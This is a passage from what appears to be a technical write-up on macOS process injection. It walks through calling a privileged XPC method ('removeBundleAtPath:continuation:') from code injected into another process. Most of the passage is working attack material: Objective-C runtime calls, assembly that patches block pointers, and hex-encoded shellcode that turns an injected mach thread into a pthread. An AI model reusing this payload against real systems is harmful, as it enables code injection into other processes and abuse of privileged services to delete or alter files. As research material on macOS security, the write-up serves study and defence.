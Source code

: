 ```c
```
Create the block that we will use as a callback to the XPC connection.
```c
void (^simpleBlock)(bool) = ^(bool test) {};
```
Set the remote function to call ("removeBundleAtPath:continuation:"), pass the parameters (NSString "/tmp/xpc_test") and the callback handler (simpleBlock), then make the XPC call.
```c
//  get the remote object proxy 
id remote_object_proxy = set_selector_msgsend(conn_ptr, sel_registerName("remoteObjectProxy"));
set_remote_object_proxy_msgsend(remote_object_proxy, sel_registerName("removeBundleAtPath:continuation:"), text, simpleBlock);
```
#### Patching The Code
We compile this code with clang and check that it works by injecting the compiled dylib into the process to make sure that our Objective-C runtime code is correct. Once this is done we need to patch the following pointers at run time for the callback block (simpleblock).
- arg_descriptor_ptr 
- main_block_invoke_ptr 
- block_descriptor_tmp_ptr

We are going to do this using a small amount of assembly that will be prepended to the payload. 
```asm
#patch the main_block_invoke_ptr
leaq 	0xFE4(%rip), %rdi 
leaq	L_.main_block_invoke(%rip), %rsi 
movq	%rsi, (%rdi) 

#patch the block_descriptor_tmp_ptr
leaq 	0xFDB(%rip), %rdi 
leaq	0xF9C(%rip), %rsi 
movq	%rsi, (%rdi)

#patch arg_descriptor_ptr
leaq 	0xFA2(%rip), %rdi 
leaq	L_.str.21(%rip), %rsi 
movq	%rsi, (%rdi)
```
Once we have finished patching the assembly we will compile it and then dump the objects code and data. We will seperate the data into data that needs to have read/write permissions (to patch pointer values) and data that only needs to have read permissions.

The data that just needs to be read will go into the code section and the data that needs read from and written to will go into the data section. 

Before we can actually run our thread and call dlopen/dlsym we need to add a small bit of code that 'promotes' the mach thread we just created into a pthread that can make all syscalls. To do this we are going to modify the code created by Scott Knight (https://gist.github.com/knightsc/45edfc4903a9d2fa9f5905f60b02ce5a) and append our shellcode to the end.

```asm
"\x90"                            // nop
"\x55"                            // push       rbp
"\x48\x89\xE5"                    // mov        rbp, rsp
"\x48\x83\xEC\x10"                // sub        rsp, 0x10
"\x48\x8D\x7D\xF8"                // lea        rdi, qword [rbp+var_8]       
"\x31\xC0"                        // xor        eax, eax
"\x89\xC1"                        // mov        ecx, eax                     
"\x48\x8D\x15\x21\x00\x00\x00"    // lea        rdx, qword ptr [rip + 0x21]  
"\x48\x89\xCE"                    // mov        rsi, rcx                     
"\x48\xB8"                        // movabs     rax, pthread_create_from_mach_thread
"__PTRD__"						  
"\xFF\xD0"			  // call       rax
"\x89\x45\xF4"                    // mov        dword [rbp+var_C], eax
"\x48\x83\xC4\x10"                // add        rsp, 0x10
"\x5D"                            // pop        rbp
```